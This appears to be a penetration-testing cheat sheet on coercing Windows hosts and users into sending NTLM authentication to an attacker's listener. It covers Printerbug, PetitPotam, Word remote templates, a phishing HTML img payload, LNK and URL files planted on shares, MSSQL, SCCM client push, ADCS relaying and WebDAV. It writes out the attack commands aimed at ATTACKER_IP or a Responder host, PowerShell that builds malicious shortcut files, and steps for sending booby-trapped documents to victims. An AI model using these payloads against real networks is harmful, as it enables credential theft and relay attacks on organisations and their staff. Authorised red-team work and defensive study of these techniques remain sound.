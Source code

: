 # Trigger Incoming SMB Connections
## Printerbug
https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py   

Simple tool to trigger SpoolService bug via RPC backconnect. Similar to dementor.py.    
`# python3 printerbug.py domain/USER:password@target.domain.local ATTACKER_IP`   
 
### Using SpoolSample
The Printerbug can also be triggered from Windows using the "SpoolSample" tool: https://github.com/leechristensen/SpoolSample   

**Check Spooler Remotely**   
To check if the spooler is active on the remote target, there are different methods:   
- For DCs, you can use PingCastle   
- For manually checking a specific target with PowerShell, use: https://raw.githubusercontent.com/vletoux/SpoolerScanner/master/SpoolerScan.ps1
- For manually checking a specific target with Python, use: https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py

## Word Document with Remote Template

In a Word document you can use the target property for a Word Template to insert UNC paths.
1. Create new docx file from a template (choose any built in template, e.g. “Business Letter”)
2. Save the docx and open it with the vim editor
3. Open the containing file `word/_rels/settings.xml.rels`  
4. Change the value of the Target property, so that it points to your listening instance (e.g. Responder) using a UNC path.
5. Save the file and send / provide it to your victim. Once the victim opens the document, the connection is triggered by Word (you should receive the NetNTLMv2 hash of the logged in user)

## PetitPotam
https://github.com/topotam/PetitPotam   
PoC tool to coerce Windows hosts to authenticate to other machines via MS-EFSRPC EfsRpcOpenFileRaw function.
It doesn't need credentials against Domain Controller.

`# python3 PetitPotam.py -d 'domain' -u 'user' -p 'password' ATTACKER_IP TARGET`   

## Phishing email with <img> tag
Payload template
```
<html>
<body>
<img src="\\<ATTACKER VM>\someicon.ico" height="1" width="1" />
</body>
</html>
```

**Outlook**   
For some reason outlook only allows to embed an HTML file if it is attached through the quick access bar.
First you need to show the quick access toolbar, then customize the quick access toolbar by adding the command "Attach File" (More Commands...).
You can then attach the HTML payload to your email (Make sure you click on the dropdown and "Insert as Text")

## Shortcut (LNK Files)
Trigger SMB connection using a shortcut, by setting its icon location to a UNC path (e.g. kali running Responder):   
```
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("\\computername\software\test.lnk")
$shortcut.IconLocation = "\\10.10.10.1\test.ico"
$shortcut.Save()
```
A good location for such a file would be a central SMB share where many people have read access. (Or a share where the IT admins are regularly connecting to...)

## URL Files
Same as with .lnk files, Internet Shortcuts (.url files) can be used.   
url file example:   
```shell
# cat newshortcut.url
[InternetShortcut]
URL=test
WorkingDirectory=test
IconFile=\\<responder-ip>\harvest\%USERNAME%.icon
IconIndex=1
```
Using PowerShell:   
```powershell
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("c:\users\bob\test\newshortcut.url")
$shortcut.TargetPath = "https://somewebsite"
$shortcut.save()
Add-Content -Path $shortcut.FullName -Value "IconFile=\\<responder-ip>\harvest\%USERNAME%.icon"
Add-Content -Path $shortcut.FullName -Value "IconIndex=1"
```
 
Now find for example a writeable SMB share where you can drop this file and copy the url file to it. (Remember to start Responder on your attacker host)   

Example using smbmap:   
`python3 smbmap.py -u username -p 'secret' -d domain -H <ip of host of smb share> --upload /path/to/your/urlfile 'sharename/newshortcut.url'`   
Now, once someone browses to this share, you should see hashes popping up in your Responder instance.

## MSSQL
If you happen to find an MSSQL instance where you have access (using PowerUpSQL) and you can run either 'xp_fileexist' or 'xp_dirtree', you can try to use those to trigger an authenticated ntlm connection from the SQL service account to e.g. your responder instance.   
More methods can be found here: https://github.com/NetSPI/PowerUpSQL/blob/master/templates/CheatSheet_UncPathInjection.txt   

## SCCM
If you are on a SCCM managed device with a low privileged user, you can force the SCCM service to authenticate.   
Full blog post by SpecterOps: https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a    

**Prerequisites**   
In order for this to work, the configuration of the SCCM has to be set to:   
- Enable automatic site-wide client push installation
- PKI certificates aren't required for client authentication
- Allow connection fallback to NTLM (Which is the default as of Januar 2023 → [Deploy clients to Windows - Configuration Manager ](https://learn.microsoft.com/en-us/mem/configmgr/core/clients/deploy/deploy-clients-to-windows-computers#configure-the-site-to-automatically-use-client-push-for-discovered-computers))

**Exploitation**   
First identify the SCCM siteinfo which provides us with the sitecode, using e.g. the tool "SharpSCCM" ([GitHub - Mayyhem/SharpSCCM: A C# utility for interacting with SCCM](https://github.com/Mayyhem/SharpSCCM) ).

`SharpSCCM.exe local siteinfo`   
Example output: (sitecode is ROO)   
```shell
[ ... ] 
SMS_Authority
--------------------
CurrentManagementPoint: SCCM.domain.local
Name: SMS:ROO
[ ... ]
```
Trigger the connection towards your Responder instance (in the following example, Responder is running on 10.10.10.1):   
`SharpSCCM.exe SCCM.domain.local ROO invoke client-push -t 10.10.10.1`   
After about 10 seconds you should receive two NTLM hashes:   
- The NTLM hash for the SCCM service account
- The NTLM hash of the SCCM machine account (indicated by the $ after the name)

## ADCS 
Certain ADCS vulnerabilities like ESC8 and ESC11 can be used in NTLM relaying attacks.   
Tools like SpoolSample or Dementor can be for example used to coerce a machine account to connect to the attacker machine, which then the attacker can use to enroll certificates in the victim machines name.
Another method used in the ESC11 vulnerability is to relay using the RPC interface of the certificate authority, which is described in the following blog post:   
https://blog.compass-security.com/2022/11/relaying-to-ad-certificate-services-over-rpc/   
To identify the ESC11 vulnerability, the following fork of the certipy tool has to be used: https://github.com/sploutchy/Certipy

## WebDAV
WebDAV is a file server over HTTP. The service WebClient is present on workstations by default (Not on server OS). This produces an HTTP hash which can be relayed to LDAP.

### Prerequisites
- Requires the system’s NetBIOS name
- Must be in the "local intranet" zone 
- Requires DNS record
  - Either poisoned in the local subnet using Responder
  - Create a DNS A record pointing to an external IP (Check ADIDNS --> https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/adidns-spoofing or https://www.netspi.com/blog/technical/network-penetration-testing/exploiting-adidns/)

### Exploitation
**Example Using Fertiliser.exe:**   
Using the tool Fertiliser.exe (GitHub.com/mdsecactivebreach/Farmer) a docx file was updated to contain a malicious field code pointing to the WebDAV server running on Kali (Responder.py instance):   
`.\Fertiliser.exe C:\_Tools\Farmer\Testdoc.docx http://kali/foo "Update required"`   
Once the Word document is opened on the victim client, the connection was initiated and the NTLMv2 hash (Net-NTLMv2) is captured.   
Note: For WebDAV to work, do not use the FQDN, instead the NetBIOS name! Also, for easier cracking of the hash, set the static challenge in Responder.conf to "1122334455667788"!
